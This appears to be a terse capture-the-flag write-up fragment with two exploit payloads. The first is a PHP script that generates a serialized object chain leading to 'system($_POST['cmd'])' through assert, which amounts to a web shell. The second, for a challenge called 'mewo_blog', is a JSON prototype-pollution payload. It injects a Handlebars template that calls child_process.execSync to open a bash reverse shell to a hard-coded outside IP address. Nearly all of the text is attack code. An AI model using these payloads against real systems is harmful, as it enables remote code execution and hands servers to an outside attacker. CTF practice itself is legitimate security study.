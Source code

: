 ```php
<?php
    class Welcome{
        public $name;
        public $arg;
        public function __construct($name, $arg){
            $this->name = $name;
            $this -> arg = $arg;
        }
    }

    class G00d{
        public $shell;
        public $cmd;
        
        public function __construct($cmd, $shell) {
            $this -> cmd = $cmd;
            $this -> shell = $shell;
        }
    }

    class H4ck3r{
        public $func;
        public function __construct($func) {
            $this -> func = $func;
        }
    }

$c = new G00d("system(\$_POST['cmd']);", "assert");
$b = new H4ck3r($c);
$a = new Welcome("A_G00d_H4ck3r", $b);
echo serialize($a)."\n";
```

## mewo_blog

WAF 上存在 pp

[https://github.com/kobezzza/Collection/issues/27](https://github.com/kobezzza/Collection/issues/27)

限制还是数组过

```json
{"username": "1", "password": "1", "payload": [1, {"payload": {"__proto__": {"style":"{{#with \"s\" as |string|}}\n{{#with \"e\"}}\n  {{#with split as |conslist|}}\n    {{this.pop}}\n    {{this.push (lookup string.sub \"constructor\")}}\n    {{this.pop}}\n    {{#with string.split as |codelist|}}\n      {{this.pop}}\n      {{this.push \"return require('child_process').execSync('bash -i >& /dev/tcp/120.26.39.182/1337 0>&1');\"}}\n      {{this.pop}}\n      {{#each conslist}}\n        {{#with (string.sub.apply 0 codelist)}}\n          {{this}}\n        {{/with}}\n      {{/each}}\n    {{/with}}\n  {{/with}}\n{{/with}}\n{{/with}}"}}}]}
```
